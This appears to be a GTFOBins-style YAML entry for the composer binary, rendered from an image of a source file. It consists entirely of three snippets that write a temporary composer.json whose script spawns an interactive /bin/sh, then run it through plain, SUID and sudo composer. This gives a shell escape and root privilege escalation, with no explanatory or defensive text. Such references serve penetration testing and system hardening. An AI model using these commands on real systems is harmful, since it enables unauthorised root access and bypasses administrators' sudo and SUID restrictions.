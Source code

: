 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        composer --working-dir=$TF run-script x
  limited-suid:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        ./composer --working-dir=$TF run-script x
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
        sudo composer --working-dir=$TF run-script x
---
```

